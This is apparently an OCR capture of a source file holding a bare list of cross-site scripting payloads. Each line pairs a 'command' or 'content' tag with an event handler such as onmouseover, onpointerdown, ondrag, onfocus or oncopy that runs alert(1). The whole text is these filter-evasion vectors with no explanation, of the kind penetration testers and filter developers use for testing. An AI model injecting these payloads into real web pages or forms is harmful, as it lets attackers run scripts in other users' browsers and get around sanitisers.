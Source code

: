 <command onmouseleave="alert(1)" style=display:block>test</command>
<command onmousemove="alert(1)" style=display:block>test</command>
<command onmouseout="alert(1)" style=display:block>test</command>
<command onmouseover="alert(1)" style=display:block>test</command>
<command onmouseup="alert(1)" style=display:block>test</command>
<command onmousewheel=alert(1) style=display:block>requires scrolling
<command onpaste="alert(1)" contenteditable>test</command>
<command onpointerdown=alert(1) style=display:block>XSS</command>
<command onpointerenter=alert(1) style=display:block>XSS</command>
<command onpointerleave=alert(1) style=display:block>XSS</command>
<command onpointermove=alert(1) style=display:block>XSS</command>
<command onpointerout=alert(1) style=display:block>XSS</command>
<command onpointerover=alert(1) style=display:block>XSS</command>
<command onpointerrawupdate=alert(1) style=display:block>XSS</command>
<command onpointerup=alert(1) style=display:block>XSS</command>
<content draggable="true" ondrag="alert(1)" style=display:block>test</content>
<content draggable="true" ondragend="alert(1)" style=display:block>test</content>
<content draggable="true" ondragenter="alert(1)" style=display:block>test</content>
<content draggable="true" ondragleave="alert(1)" style=display:block>test</content>
<content draggable="true" ondragstart="alert(1)" style=display:block>test</content>
<content id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></content>
<content id=x tabindex=1 onfocus=alert(1)></content>
<content id=x tabindex=1 onfocusin=alert(1)></content>
<content onafterscriptexecute=alert(1)><script>1</script>
<content onbeforecopy="alert(1)" contenteditable>test</content>
<content onbeforecut="alert(1)" contenteditable>test</content>
<content onbeforescriptexecute=alert(1)><script>1</script>
<content onblur=alert(1) id=x tabindex=1 style=display:block>test</content><input value=clickme>
<content onclick="alert(1)" style=display:block>test</content>
<content oncontextmenu="alert(1)" style=display:block>test</content>
<content oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<content oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
